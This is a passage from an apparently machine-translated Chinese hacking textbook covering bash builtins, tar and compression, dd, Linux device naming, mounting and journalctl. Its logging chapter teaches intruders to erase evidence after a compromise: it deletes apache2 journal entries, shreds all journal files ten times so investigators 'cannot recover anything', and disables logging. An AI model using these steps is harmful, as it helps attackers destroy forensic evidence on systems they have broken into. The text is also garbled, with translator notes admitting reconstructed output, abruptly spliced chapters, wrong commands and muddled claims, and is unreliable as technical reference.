| exec | 在不创建新进程的情况下执行后续命令，替换当前进程 |
| exit | 退出 shell |
| export | 使变量或函数对从此 shell 执行的其他程序可用 |
| fg | 将作业调至前台 |
| getopts | 解析 shell 脚本的参数 |
| jobs | 列出后台 [bg] 作业 |
| pwd | 显示当前目录 |
| read | 从标准输入读取一行 |
| readonly | 将变量声明为只读 |
| set | 列出所有变量 |
| shift | 将脚本的输入参数向左移动，丢弃第一个参数 [用于一次处理所有参数] |
| test | 评估参数 |
| times | 打印用户时间和系统时间 |
| trap | 捕获信号以便脚本可以处理（未捕获的信号将终止脚本） |
| type | 显示每个参数如何被解释为命令 |
| umask | 修改新文件的默认权限 |
| unset | 删除变量或函数的值 |
| wait | 等待后台进程完成 |

## 总结

脚本编写对于任何黑客或系统管理员来说都是一项必不可少的技能。它让你能够自动化处理通常需要花费数小时的任务，一旦保存脚本，就可以反复使用。Bash 脚本是最基本的脚本形式，你将在第 17 章学习到功能更强大的 Python 脚本。

## 练习题

- 1. 创建一个与我们的 HelloHackersArise 脚本类似的自定义问候脚本。
- 2. 创建一个类似于 `MySQLscanner.sh` 的脚本，但设计用于寻找在端口 1433 运行 Microsoft SQL Server 数据库的系统。将其命名为 `MSSQLscanner`。
- 3. 修改该 `MSSQLscanner` 脚本，提示用户输入起始和结束 IP 地址以及要搜索的端口。然后过滤掉所有端口关闭的 IP 地址，仅显示开启的。

# 9

## 压缩与存档

黑客经常需要下载和安装新软件，以及发送和下载多个脚本和大文件。如果这些文件被压缩并合并成单个文件，这些任务就会变得更容易。如果你来自 Windows 世界，你可能通过 .zip 格式熟悉这个概念，它通过合并和压缩文件使其更小，以便通过互联网或可移动介质进行传输。在 Linux 中有很多方法可以实现这一点，我们在本章将查看一些最常用的工具。我们还查看了 `dd` 命令，它允许你复制整个驱动器，包括其中已删除的文件。

## 什么是压缩？

压缩这个有趣的话题本身就可以写一整本书，但对于本书，我们只需要对该过程有基础的理解。正如术语所示，压缩使数据变小，从而减少对存储容量的需求并使数据更容易传输。对于你作为初级黑客来说，将压缩分类为有损 `lossy` 或无损 `lossless` 即可。

有损压缩在减小文件大小方面非常有效，但信息的完整性会丢失。换句话说，压缩文件与原始文件并不完全相同。这种压缩适用于图形、视频和音频文件，在这些文件中文件的微小差异几乎无法察觉——`mp3`、`.mp4`、`.png` 和 `.jpg` 都是有损压缩算法。如果 `.png` 文件中的一个像素或 `.mp3` 文件中的一个音符被改变，你的眼睛或耳朵可能注意不到区别——尽管当然，发烧友们会说他们能明显看出 `.mp3` 和未压缩的 `.flac` 文件之间的区别。无损压缩的优势在于它的效率和有效性。压缩率非常高，这意味着生成的文件明显小于原始文件。

然而，当你发送文件或软件和数据时，如果数据完整性至关重要，那么有损压缩是不可接受的。例如，如果你正在发送脚本或文档，在解压时必须保留原始文件的完整性。本章侧重于无损压缩，这可以通过许多工具和算法来实现。遗憾的是，正如你想象的那样，无损压缩没有有损压缩那么高效，但对于黑客来说，完整性往往比压缩率重要得多。

## 将文件打包在一起

通常，你在压缩文件时的第一件事是将它们合并成一个归档。在大多数情况下，归档文件时，你会使用 `tar` 命令。`tar` 代表 `tape archive`（磁带存档），引用了计算机系统史前使用磁带存储数据的时代。`tar` 命令从多个文件中创建一个单独的文件，该文件被称为归档 `archive`、tar 文件或 tar 包 `tarball`。

例如，假设你有三个像第 8 章那样的脚本文件，命名为 `hackersise1`、`hackersise2` 和 `hackersise3`。

```bash
kali ls -l

-rw-xr-x 1 root root 22311 Nov 27 13:00 hackersise1.sh

-rw-xr-x 1 root root 8791 Nov 27 13:00 hackersise2.sh

-rw-xr-x 1 root root 3992 Nov 27 13:00 hackersise3.sh
```

*(注：此处原文最后一行 3992 疑似有误，但按原文翻译)* 修正：原文此处应为：
```bash
kali ls -l

-rw-xr-x 1 root root 22311 Nov 27 13:00 hackersise1.sh

-rw-xr-x 1 root root 8791 Nov 27 13:00 hackersise2.sh

-rw-xr-x 1 root root 3992 Nov 27 13:00 hackersise3.sh
```

假设你想把这三个文件发送给另一个黑客。你可以使用以下命令合并它们并创建一个存档：

```bash
kali tar -cvf Hikersise.tar hackersise1.sh hackersise2.sh hackersise3.sh

hackersise1.sh

hackersise2.sh

hackersise3.sh
```

### 列表：创建三个文件的 tar 包

让我们分解这个命令以便更好地理解。存档命令是 `tar`，我们在这里使用了三个选项。`c` 选项意味着创建 `create`，`v`（代表详细，可选）列出正在处理的文件，`f` 意味着指向文件。这个最后的选项也适用于读取。然后我们给出想要创建的新存档名称。

完整来说，这提取三个文件并创建一个单独的文件 `Hikersise.tar`。当你对目录进行详细列出时，你会看到它也包含了 `.tar` 文件，如下：

```bash
kali ls -l

-rw-rw-r-- 1 kali 40960 Nov 27 13:32 Hikersise.tar
```

注意 tar 包的大小：40960 字节。当三个文件存档时，之前的总大小为 35094 字节，存档后 tar 包增长到了 40960 字节。换句话说，存档过程增加了 5000 多字节。虽然对于小文件来说这种开销可能是巨大的，但对于大文件，这种开销会越来越不显著。

我们可以使用 `tar` 命令配合 `t` 内容切换在 tar 包中显示这些文件，而不提取它们，如下：

```bash
kali tar -tvf Hikersise.tar

-rw-xr-x 1 root root 22311 Nov 27 13:00 hackersise1.sh

-rw-xr-x 1 root root 8791 Nov 27 13:00 hackersise2.sh

-rw-xr-x 1 root root 3992 Nov 27 13:00 hackersise3.sh
```


在这里，我们看到了三个原始文件及其原始大小。你可以使用 `tar` 命令配合 `x`（提取）切换开关从 tar 包中提取这些文件，如下：

```bash
kali tar -xvf Hikersise.tar
hackersise1.sh
hackersise2.sh
hackersise3.sh
```

由于你仍然在使用 `-v` 切换开关，该命令会在输出中显示正在提取哪些文件。如果你想提取文件并“静默地”，意味着不显示任何输出，你只需移除 `-v`（详细）开关即可，如下所示：

```bash
kali tar -xf HackersArise.tar
```

文件已提取到当前目录；你可以对目录进行列出列表以双重检查。请注意，默认情况下，如果已存在提取出的文件，`tar` 将删除现有文件并用提取出的文件替换它。

## 压缩文件

现在我们有一个归档文件，但该文件的大小比原始文件的总和还要大。如果你想压缩这些文件以方便传输，Linux 有几个命令可以压缩文件：

- `gzip`，使用扩展名 `.tar.gz` 或 `.gz`
- `bzip2`，使用扩展名 `.tar.bz2`
- `compress`，使用扩展名 `.tar.z`

这些命令都能够压缩我们的文件，但它们使用不同的压缩算法，并具有不同的压缩率。因此，我们将查看每种方法及其功能。

通常情况下，`compress` 速度快，但生成的结果文件较大；`bzip2` 最慢，但生成的结果文件最小；而 `gzip` 则介于两者之间。你作为一名初级黑客，应该了解这三种方法的主要原因是，在访问其他工具时，你会遇到各种类型的压缩。因此，本节将向你展示如何处理主要的压缩方法。

### 使用 gzip 压缩

让我们先尝试 `gzip` (GNU zip)，因为它是 Linux 中常用的压缩工具。你可以通过输入以下命令来压缩你的 `HackersArise.tar` 文件（确保你处于包含归档文件的目录下）：

```bash
kali sudo gzip HackersArise.*
```

注意，我们对文件扩展名使用了通配符 `*`；这告诉 Linux 该命令适用于任何以 `HackersArise` 开头的具有任何扩展名的文件。你将在后续示例中使用类似的表示法。当我们对目录进行列出列表操作时，可以看到 `HackersArise.tar` 已被 `HackersArise.tar.gz` 替换，文件大小已压缩到 3,299 字节！

```bash
kali ls -l
--snip--n--rw-r--r-- 1 root root 3299 Nov 27 2024 13:32 HackersArise.tar.gz
--snip--
```

然后我们可以使用 `gunzip` 命令（GNU unzip 的缩写）来解压该文件：

```bash
kali> gunzip HackersArise.*
```

一旦解压缩，文件将不再以 `.tar.gz` 扩展名保存，而是以 `.tar` 扩展名保存。此外，注意它恢复到了 40,960 字节的原始大小。尝试列出列表以确认。值得注意的是，`gzip` 也可以用于提取 `.zip` 文件。

### 使用 bzip2 压缩

Linux 中另一个常用的压缩工具是 `bzip2`，它的工作原理类似于 `gzip`，但具有更高的压缩率，这意味着结果会更小。你可以通过输入以下命令压缩你的 `HackersArise.tar` 文件：

```bash
kali> bzip2 HackersArise.*
```

当你列出列表时，可以看到 `bzip2` 将文件压缩到了仅 2,081 字节！还要注意现在的文件扩展名是 `.tar.bz`。要解压压缩的文件，使用 `bunzip2`，如下：

```bash
kali> bunzip2 HackersArise.*
```

执行后，文件恢复到原始大小，文件扩展名恢复为 `.tar`。

### 使用 compress 压缩

最后，你可以使用 `compress` 命令压缩文件。这可能是最不常用的工具，但它很容易记忆：要使用它，只需输入命令 `compress` 后跟文件名，如下：

```bash
kali> compress HackersArise.*
kali> ls -l
--snap-
-Iw-Tw-R-- 1 kali 5476 Nov 27 2024 13:32 HackersArise.tar.Z
```

注意，`compress` 工具将文件大小减到了 5,476 字节。还要注意现在的文件扩展名是 `.tar.Z`（带有大写 Z）。

要解压同一个文件，请使用 `uncompress`：

```bash
kali> uncompress HackersArise.*
```

你也可以对使用 `compress` 压缩的文件使用 `gunzip` 命令。

## 创建存储设备的逐位复制或物理副本

在信息安全和黑客的世界中，有一条 Linux 归档命令在实用性上脱颖而出。`dd` 命令可以对文件、文件系统甚至整个硬盘进行逐位复制。这意味着即使是已删除的文件也会被复制（是的，了解你的被删除文件可能是可以恢复的，这很重要），使得发现和恢复变得容易。大多数逻辑复制工具（如 `cp`）不会复制已删除的文件。

一旦黑客拥有了目标系统，`dd` 命令将允许他们将整个硬盘或存储设备复制到他们的系统中。此外，那些知道如何抓捕黑客的人——即法医调查人员——可能会使用此命令制作硬盘的物理副本，其中包含已删除的文件和其他可能对寻找针对黑客的证据有用的痕迹。

至关重要的一点是，`dd` 命令不应用于日常的文件和存储设备复制，因为它的非常慢；其他命令可以更快、更高效地完成工作。但是，当你需要存储设备的副本时，它是极佳的。

我们首先来看额外的驱动器和其他存储设备是如何挂载到文件系统上的，直到到达根目录 `/(root)`。在此语境下，“挂载”简单意味着将驱动器或磁盘附加到文件系统，以便操作系统可以访问它们。对于你作为一个黑客来说，理解文件和存储设备管理系统是必要的，这不仅适用于自己的系统，而且通常适用于你的目标系统。黑客通常使用外部介质加载数据、黑客工具或你的操作系统。当你位于目标系统上时，你需要了解你正在操作什么、在哪里寻找机密或关键文件、如何将驱动器挂载到目标系统，以及你可以在系统的哪些位置放置文件。在本章中，我们将涵盖所有主题，以及如何管理和监控存储设备。

我们从名为 `dev` 的目录开始，你可能可能已经在目录结构中注意到它了：`dev` 是 `device` 的缩写，Linux 中的每个设备都由 `/dev` 目录下的其自己的文件来表示。让我们从操作 `/dev` 开始吧。

### 设备目录 /dev

Linux 有一个特殊的目录，其中包含代表每个连接设备的文件：即命名良好的 `/dev` 目录。作为首次介绍，请导航到 `/dev` 目录，然后对其执行详细列表操作。你应该能看到类似列表 10-1 的内容。

```bash
kali> cd /dev
kali> ls -1
total 0
crw---- 1 root root 10, 175 May 16 12:44 appgart
crw---- 1 root root 10, 235 May 16 12:44 autofs
drwxr-xr-x 1 root root 160 May 16 12:44 block
--snip-
lrwxrxr-wx 3 May 16 12:44 cdrom -> s0
--snip-
drwxr-xr-x 2 root root 60 May 16 12:44 cpu
```

列表 10-1：`/dev` 目录的详细列表

设备默认按字母顺序显示。你可能识别出某些设备，例如 `cdrom` 和 `cpu`，但其他设备的名称非常晦涩。你系统上的每个设备都由 `/dev` 目录中的一个文件表示，包括你可能从未使用过或从未存在过的设备。万一你真的遇到了，那里有一个设备文件在等待它。

如果你向下滚动此屏幕，你将看到更多设备列表：

```bash
--snip-
dbr-rw---- 1 root root 8 May 16 12:44 sda
dbr-rw---- 1 root root 8 May 16 12:44 sda1
dbr-rw---- 1 root root 2 May 16 12:44 sda2
```


| brw-rw---- 1 root root 8, 5 May 16 12:44 sda |
| brw-rw---- 1 root root 8, 16 May 16 12:44 sdb |
| brw-rw---- 1 root root 8, 17 May 16 12:44 sdb1 |

特别值得关注的是设备 `sda1`、`sda2`、`sdb3` 和 `sdb1`，它们通常是硬盘及其分区，以及 USB 闪存盘。让我们仔细观察这些设备。

## Linux 如何表示存储设备

Linux 对驱动器使用逻辑标签，然后将其挂载到文件系统。这些逻辑标签取决于驱动器挂载的位置和时间，这意味着同一个硬盘在不同时间可能有不同的标签。

最初，Linux 将软盘（还记得它们吗？）表示为 `fd0`，将硬盘表示为 `hda`。你仍然会在旧版 Linux 系统上看到这些驱动器表示形式，但现如今软盘已经消失了（谢天谢地谢谢）。因此，那些使用 IDE 或 E-IDE 接口的老旧硬盘仍以 `hda` 的形式表示。新的串行 ATA (SATA) 接口驱动器和小计算机接口 (SCSI) 硬盘表示为 `sda`。驱动器有时会被分成几个分区，这些分区在标签系统中用数字表示，正如你接下来将看到的。

当系统拥有多一个硬盘时，Linux 简单地按字母顺序递增最后一个字母来命名它们，因此第一个驱动器是 `sda`，第二个驱动器是 `sdb`，第三个驱动器是 `sdc`，依此类推（见表 10-1）。

表 10-1：设备命名系统
| 设备文件 | 说明 |
| :--- | :--- |
| sda | 第一块 SATA 硬盘 |
| sdb | 第二块 SATA 硬盘 |
| sdc | 第三块 SATA 硬盘 |
| sdd | 第四块 SATA 硬盘 |

`sda` 之后的序列字母通常称为主设备（major number）。

## 驱动器分区

某些驱动器可以分成分区，以便管理和隔离信息。例如，你可能希望将你的硬盘分区，使得你的交换文件、`home` 目录和 `/` 目录都位于独立的分区上——你可能出于多种原因这样做，包括共享资源和放宽默认权限。Linux 为每个分区分配一个跟在驱动器标识后面的设备号（minor number）。这种情况下，第一块 SATA 硬盘上的第一个分区是 `sda1`，然后是 `sda2`，第三是 `sda3`，依此类推，如表 10-2 所示。

表 10-2：分区标签系统
| 分区 | 说明 |
| :--- | :--- |
| sda1 | 第一块 (a) SATA 硬盘上的第一个 (1) 分区 |
| sda2 | 第一块 (a) 硬盘上的第二个 (2) 分区 |
| sda3 | 第一块 (a) 硬盘上的第三个 (3) 分区 |
| sda4 | 第一块 (a) 硬盘上的第四个 (4) 分区 |

有时，你可能想查看 Linux 系统上的分区，以查看分区以及每个分可用容量。你可以通过 `fdisk` 工具来实现。使用 `fdisk` 的 `-l` 选项可以列出所有驱动器的分区，如列表 10-2 所示。

```
kali> sudo fdisk -l

Disk /dev/sda: 20GiB, 2174836480 bytes, 41943040 sectors

Units: sectors of 1 * 512 = 512 bytes

Sector size (logical/physical): 512 bytes / 512 bytes

I/O size (minimum/optimal): 512 bytes / 512 bytes

Disk type: dos

Disk identifier: 0x7c0

| Device | Boot | Start | End | Sectors | Size |

| :--- | :--- | :--- | :--- | :--- |

| sda1 | | 2048 | 40965779 | 40963732 | 18.7G |

| sda2 | | 40965780 | 40965780 | 1 | 1K |

| sda3 | | 40965781 | 41943039 | 977259 | 4G |
```

*(注：原文中的 fdisk 表格数据严重破碎，我已根据提供的文本片段和标准的 fdisk 输出模式重建了逻辑结构)*

```
-sda5 8:5 0 1.3G part [SWAP]

sdb 8:16 0 29.8G 0 disk

-sdb1 8:17 0 29.8G 0 disk /media

sro 11:0 1 2.7G 0 rom
```

列表 10-3：使用 `lsblk` 列出块设备信息

输出可能包含作为 `fdo` 的软盘驱动器和作为 `sro` 的 DVD 驱动器，即使它们都不在我们的系统中——这是遗留系统的产物。你还可以看到关于驱动器挂载点的信息——这是驱动器挂载到文件系统的位置。注意，硬盘 `dads` 挂载在 `/`，而闪存盘挂载在 `/media`。你将在下一节中详细了解此项意义的重要性。

此外，有时我们可能想知道 USB 设备是否已挂载到我们的系统中。例如，当我们插入新的闪存盘、键盘、耳机或 SDR（软件定义无线电台）时，它们并不一定会立即连接，有时根本不会连接。我们有一个命令来检查所有连接的设备 `lsusb`。

我们可以使用此系统命令查看所有已连接并准备就绪 USB 设备：

```
kali lsusb

Bus Device 001: ID 1d6b:0001 Linux Foundation 1.1 root hub

Bus Device 002: ID 80ee:0021 VirtualBox USB TabletBus 001 Device...
```

你的输出可能会根据连接到你系统的设备而有所不同。

## 挂载与卸载

大多数现代操作系统（包括新版本的 Linux）在存储设备连接时会自动对其进行自动挂载，这意味着新的闪存盘或硬盘会自动挂载到文件系统中。对于 Linux 的初学者来说，“挂载”可能是一个陌生的概念。

存储设备必须在物理上连接到文件系统，然后在逻辑上挂载到文件系统，操作系统才能访问这些数据。换句话说，如果设备在物理上连接到系统，它并不意味着在逻辑上已挂载并供操作系统可用。“挂载”（mount）一词是早期时代（硬盘出现之前）的遗留，当时硬盘必须物理性地挂载到计算机系统上——想想你在旧科幻电影中看过的那些带有旋转磁带驱动器的巨大计算机。

如前所述，设备在目录树中连接的点被称为挂载点。Linux 中的两个主要挂载点是 `/mnt` 和 `/media`。按照惯例，外部 USB 设备和闪存盘等设备可以手动挂载到 `/mnt`，但在自动挂载时，会使用 `/media` 目录（尽管从技术上可以使用任何目录）。

### 手动挂载存储设备

在某些 Linux 版本中，你需要手动挂载驱动器才能访问其内容，因此这是一项值得学习的技能。若要在文件系统上挂载驱动器，请使用 `mount` 命令。设备的挂载点应该是一个空目录；如果你在一个包含子目录和文件的目录上挂载设备，那么挂载的设备将覆盖该目录的内容，导致这些内容变得不可见且无法使用。因此，要向 `/mnt` 目录挂载新硬盘 `sdb`，你需要输入以下命令：

```
kali> sudo mount /dev/sdb1 /mnt
```

之后，该驱动器就可以被访问了。如果你想在 `/media` 目录挂载闪存盘 `sdc1`，请输入以下内容：

```
kali> sudo mount /dev/sdc1 /media
```

在启动时挂载的系统文件系统保存在 `/etc/fstab`（filesystem table 的缩写）一个文件中，系统在每次启动时都会读取该文件。

### 使用 `umount` 卸载

如果你有 Mac 或 Windows 的背景，你可能在不知情的情况下卸载过驱动器。在从系统中移除驱动器之前，请先将其“弹出”（eject），以防止对设备上存储的文件造成损坏。“弹出”只是另一种表达方式。

在 Linux 中，我们使用 `umount` 命令来卸载设备。如果某个 USB 设备正在被使用，卸载可能会失败。在这种情况下，你需要关闭在使用该设备的程序，然后再尝试卸载。

```
sudo umount /dev/sdb1
```


# 日志系统

对于任何 Linux 用户来说，熟练使用日志文件至关重要。日志文件存储了操作系统和应用程序运行时发生的所有事件信息，包括任何错误和安全警报。你的系统将根据我将在本章中教你如何配置的一系列规则，自动记录信息。

作为一名黑客，你应该意识到，系统的日志文件可能是追踪你目标活动和身份的足迹，但它们也可能是你在他人系统上活动活动的足迹。因此，黑客需要知道他们可以收集到什么信息，以及关于他们自己的操作和方法可以收集到什么信息，以便隐藏这些证据。

另一方面，任何加固 Linux 系统的人员都需要知道如何管理日志记录功能，以确定系统是否遭受了攻击，然后破译实际发生了什么以及是谁干的。

本章将向你如何检查和配置日志文件，以及如何删除你的活动证据并完全禁用日志。在这里，我们将查看负责记录的守护进程（daemon）。

## journalctl 工具

自从《黑客 Linux 基础教程》第一版出版以来，大多数 Linux 发行版（包括 Kali）的日志系统都发生了变化。之前的版本使用 `syslog` 守护进程（也称为 `syslogd`）。较新的 Linux 使用一个名为 `systemd` 的软件套件，旨在标准化 Linux 在所有发行版中的工作方式。

`Systemd` 有一个用于日志记录的类似控制工具，称为 `journalctl`（`journal` 计算机空间是计算机存储活动和事件的地方——换句话说，就是一个日志系统）。这个 `journalctl` 工具允许相互检索和查看日志文件。

旧版 `syslog` 和 `journald` 之间的区别在于，`syslog` 将日志文件存储为简单的文本文件，而 `journald` 存储的是二进制文件（0 和 1）。这意味着用户（你）在解释和搜索日志文件时会容易得多。旧风格的 `syslog` 文件以极难搜索和解释而闻名。系统管理员通常必须编写脚本来排序日志，但现在 `journalctl` 可以自动完成这些类型的任务。总而言之，`journalctl` 会让你这个 Linux 新手的日子变得简单得多。

让我们来看一下它。当在提示符处直接输入 `journalctl` 命令时，所有日志都会通过 `more` 命令显示在屏幕上：

```
kali> journalctl

May 12 16:43:52 kali systemd[898]: Queued job for default target.target.

May 12 16:43:52 kali journald[351]: /var/log/journal/d3ab0d2e96b4806ad455...

May 12 16:43:52 kali systemd[898]: Created slice app.slice - User Application Slice.

May 12 16:43:52 kali systemd[898]: Created session.slice - User Core Slice.

May 12 16:43:52 kali systemd[898]: Reached target.target - Paths.

May 12 16:43:52 kali systemd[898]: Reached target.timers - Timers.

May 12 16:43:52 kali systemd[898]: Starting dbus.socket - D-Bus User Message Bus...

May 12 16:43:52 kali systemd[898]: Listening on dimmnrg.socket - GnuPG network...

May 12 16:43:52 kali systemd[898]: Listening on gcr-ssh-agent.socket - GCR ssh-agent wrapper.

--Snip--
```

如你所示，`journalctl` 将所有日志显示在你的屏幕上，这可能有用，但对初学者来说可能太多了。正如我们在本章后面将看到的，我们可以让 `journalctl` 显示我们特别感兴趣的部分日志。

不过，首先让我们来看 `journalctl` 的帮助界面：

```
kali journalctl -h

journalctl [OPTIONS...] [MATCHES...]

# 查询日志。

源选项:

- --system 显示系统日志

- --user 显示当前用户的用户日志

- --machine=CONTAINER 在本地容器上操作

- --merge 显示来自所有可用日志的条目

- --directory=PATH 从目录显示日志文件

- --file=PATH 显示日志文件

- --root=PATH 在备用文件系统根上操作

- --image=PATH 将磁盘镜像作为文件系统根对镜像进行操作

- --image-policy=POLICY 指定磁盘拆分命名空间

- --namespace=NAMESPACE 显示来自指定命名空间的日志数据

过滤选项:

- --since=DATE 显示不早于指定日期的条目

- --until=DATE 显示不晚于指定日期的条目

- --cursor 显示从指定光标开始的条目

- --after=CURSOR 显示指定光标后的条目

- --cursor=FILE 显示 FILE 中光标后的条目并更新 FILE

- --boot=[ID] 显示当前启动或指定的启动

- --unit=UNIT 显示指定单元的日志

- --user=UNIT 显示指定用户单元的日志

- --identifier=STRING 显示具有指定 syslog 标识符的条目

- --priority=RANGE 显示指定优先级的条目

- --facility=FACILITY... 显示具有指定设施的条目

- --grep=PATTERN 显示 MESSAGE 匹配 PATTERN 的条目

- --case-sensitive=[BOOL] 强制区分大小写不敏感匹配

- --dmesg 显示当前启动的内核消息日志
```

注意 `journalctl` 具有针对 (`user`)、日期 (`--since=DATE`)、优先级 (`-p`) 和设施 (`--facility`) 的选项。

## 日志优先级与设施

日志和设施反映了操作系统和系统的不同优先级。某些日志非常重要，被赋予 `emerg` 优先级，而另一些则不那么重要，被赋予 `info` 或 `debug` 优先级。系统管理员可以确定哪些日志具有什么优先级。此外，系统管理员可以选择他们想要查看的优先级。

这里是日志优先级列表：

- `emerg` (0)
- `alert` (1)
- `crit` (2)
- `warning` (4)
- `notice` (5)
- `info` (6)
- `debug` (7)

要查看最高优先级的日志，我们可以使用 `-p` 构建 `journalctl` 查询，如下：

```
kali> journalctl -p "emerg"

Jun 30 22:59:13 kernel: BUG: soft lockup for 23s! [swapper:0:0]

Jul 01 03:28:06 kernel: BUG: soft lockup for 24s! [swapper:0:0]

Jul 02 10:10:26 kernel: BUG: soft lockup for [swapper:0:0]

--snap--
```

注意我们也可以使用优先级 6 (`info`)：

```
kali> journalctl -p 6
```

`journalctl` 工具允许我们使用 `-u` 选项查看特定服务的日志。要查看与 `apache2` 服务器关联的日志，我们可以构建如下查询：

```
kali> journalctl -u apache2
```

```
May 28 24:25:48 systemd[1]: Starting apache2.service - The Apache HTTP Server...

May 28 24:25:48 journalctl[1124]: AH058: Could not determine...

May 28 24:25:48 systemd[1]: Started apache2.service - The Apache HTTP Server.

May 29 00:00:31 systemd[1]: Reloading apache2.service - The Apache HTTP Server...

--snap--
```

此查询可以通过附加服务名称 `-u` 来查找任何服务的日志。

## journalctl 查询

`journalctl` 的主要优势之一是可以针对事件、用户和时间查询日志，因为 `journalctl` 的查询语言非常相似。例如，如果只想查看过去 24 小时的事件，我可以查询：

```
kali> journalctl -q --since "24 hours"
```

图 11-1 显示了：


Aug 20 17:31:52 kernel: pci 0000:02.0: vgafb: setting as boot device

Aug 20 17:31:52 kernel: pci 0000:02.0: vgafb: VGA device added-decodes=io,mem,0

Aug 20 17:31:52 kernel: pci 0000:02.0: vgafb: bridge control

Aug 20 17:31:52 kernel: vgafb: loaded

Aug 20 17:31:52 kernel: acpi: host

Aug 20 17:31:52 kernel: eth0: new interface

Aug 20 17:31:52 kernel: usbcore: new interface

Aug 20 17:31:52 kernel: pps_core: Linux API.

Aug 20 17:31:52 kernel: pci_Core version 2.3 - Copyright 2005-2007

Aug 20 17:31:52 kernel: idac_MC: Ver.:1.0

Aug 20 17:31:52 kernel: Initializing

Aug 20 17:31:52 kernel: Netfilter: domain size is 120

Aug 20 17:31:52 kernel: Netfilter: conntrack: enabled (lib_netfilter)

Aug 20 17:31:52 kernel: untracked traffic by default

Aug 20 17:31:52 kernel: PCI: Using ICMP for IRQ

Aug 20 17:31:52 kernel: eth0: mtu 1500 bytes

Aug 20 17:31:52 kernel: nvme0: RAM buffer [0x0000f00-0x0000ffff]

Aug 20 17:31:52 kernel: nvme0: RAM buffer [0x0001000-ffffff]

Aug 20 17:31:52 kernel: clock: Switched to clock-tsc

Aug 20 17:31:52 kernel: VFS: Disk quotas (quotas=6.0)

Aug 20 17:31:52 kernel: VFS: Dentry entries: 512 (order, 4096) bytes

lines 250-272

```
图 11-1：journalctl 查询的输出
```

此查询通过 `-q` 检索 24 小时的日志。在这种情况下，`-q` 标志静默了某些信息。`journalctl` 允许我们使用 `-u` 选项查看日志。你知道，`journalctl` 允许你通过这种方式查看用户的活动日志：

```
kali> journalctl --since "24 hours"
```

图 11-2：用户事件搜索的输出

```
 20 17:31:52 systemd[898]: Created slice app.slice - User Application Slice.

Aug 20 17:31:52 systemd[898]: Created session.slice - User Core Slice.

Aug 20 17:31:52 systemd[898]: Reached target.target - Paths.

Aug 20 17:31:52 systemd[898]: Reached target.timers - Timers.

Aug 20 17:31:52 systemd[898]: Starting dbus.socket - D-Bus User Message Bus...

Aug 20 17:31:52 systemd[898]: Listening on dimmnrg.socket - GnuPG network...

Aug 20 17:31:52 systemd[898]: Listening on gcr-ssh-agent.socket - GCR ssh-agent wrapper.

--Snip--
```

这将有助于确定 root 用户是否在线以及他们可能在做什么（仅当触发了日志时）。

### 内核日志

任何操作系统的内核都是它的心脏。它控制着整个操作系统，也是 Linux 的核心所在。如果内核出现问题，我们可能需要意识到这一点。要查看内核日志，我们可以使用 `-k`（kernel）选项。要查看过去 24 小时内的内核日志，我们可以输入：

```
kali> journalctl -k --since "24 hours ago"
```

```
Oct 15 14:41:21 kali kernel: linux version 6.6.9-amd64 (devel@kali.org) (gcc-13...

Oct 15 14:41:21 kali kernel: Command line: BOOT_IMAGE=/boot/vmlinux-6.6.9-amd64...

Oct 15 14:41:21 kali kernel: BIOS-e280: RAM map [mem 0x0000000000000000-0x00000000000ffff] usable

Oct 15 14:41:21 kali kernel: BIOS-e280: [mem 0x00000000000009fc0-0x000000000000fffff] reserved

Oct 15 14:41:21 kali kernel: BIOS-e280: [mem 0x0000000000000f00-0x000000000000ffff] reserved

Oct 15 14:41:21 kali kernel: BIOS-e280: [mem 0x0000000000010000-0x0000000000ffffff] usable
```

## 使用 journalctl 掩盖你的足迹

如果你入侵了一个系统，你希望确保自己没有留下任何可以追溯到身上的证据。记住，最好的黑客攻击是他们从未察觉的攻击！

如果我们入侵了 apache Web 服务器以控制系统，那么最需要清理的地方就是 apache 日志。我们可以通过 `journalctl` 执行此，但我们需要使用 `sudo` 命令获取 root 权限：

```
kali sudo journalctl -u apache2 --time=1d
```

此命令将删除当天所有与 apache 服务器关联的日志。

```
Vacuing done, freed 08 of archived journals from /var/log/journal/d3ab0b2de2e9b6a4b6ad451fc7593a25/system-000...

Deleted archived journal /var/log/journal/d3ab0b2de2e9b6a4b6ad451fc7593a25/user-1000...
```

一个更好、更安全的解决方案是粉碎（shred）日志文件。对于其他文件删除，熟练的调查员仍然能够恢复被删除的文件（被删除的文件只是被文件系统标记为可覆盖；在被覆盖之前，它们仍然存在）。但假设有一种方法可以删除文件并对其进行多次覆盖，使其变得难以恢复。幸运的是，Linux 有一个内置命令，起名恰好就是 `shred`，专门为此目的设计。

要了解 `shred` 命令的工作原理，请通过输入以下命令快速查看帮助屏幕：

```
kali shred --help

Usage: shred [OPTION]...FILE...

Overwrite the specified FILE(S)repeatedly in order to make it harder

for even very expensive hardware probing to recover data
```

你屏幕上的完整输出显示 `shred` 命令有许多选项。在最基础的形式下，其语法为：

```
shred <FILE>
```

`shred` 本身会删除文件并进行多次覆盖——默认情况下，`shred` 会覆盖四次。通常情况下，文件被覆盖的次数越多，就越难以恢复，但请记住，每次覆盖都需要时间，因此对于非常大的文件，`shred` 可能会非常耗时。

包含其中的两个实用的选项是 `-f` 选项，它可以更改文件的权限以在必要时允许操作；以及 `-n` 选项，它允许你选择覆盖文件的次数。例如，我们将使用以下命令将 `/var/log/journal/subdirectory/*` 下的所有日志文件粉碎 10 次：

```
kali shred -f -n 10 /var/log/journal/subdirectory name.*
```


我们需要 `-f` 选项来获得粉碎 auth 文件的权限，并在 `-n` 选项后跟上所需的覆盖次数。在我们想要粉碎的文件路径后，包含通配符星号，因为我们正在粉碎该子目录下的所有内容。现在尝试打开一个日志文件：

```
kali mousepad /var/log/journal/filename
```

一旦你粉碎了一个文件，你会发现其内容是无法解析的、乱码，如图 11-3 所示。



图 11-3：被粉碎的日志文件

现在，如果安全工程师或法医调查员检查这些文件，他们将一无获，完全无法恢复！

## 禁用日志

掩盖足迹的另一种方法是直接禁用日志。当黑客控制系统时，他们可以立即禁用日志，以防止系统记录他们的活动。

Apache 服务器通常与 MySQL 数据库相关联（我们将在下一节中介绍它），而这两项服务经常与 Python 或 PHP 等脚本语言配合使用以开发 Web 应用程序。Linux、Apache、MySQL 和 PHP 或 Python 的这种组合为 Web 应用程序的开发和部署了一个强大且稳健的平台，称为 LAMP——它们是 Linux 世界中最广泛使用的网站开发工具，在微软世界也非常流行，在微软那里通常被称为 WAMP，其中 W 代表 Windows。

从命令行中输入以下内容：

```
kali> sudo systemctl start apache2
```

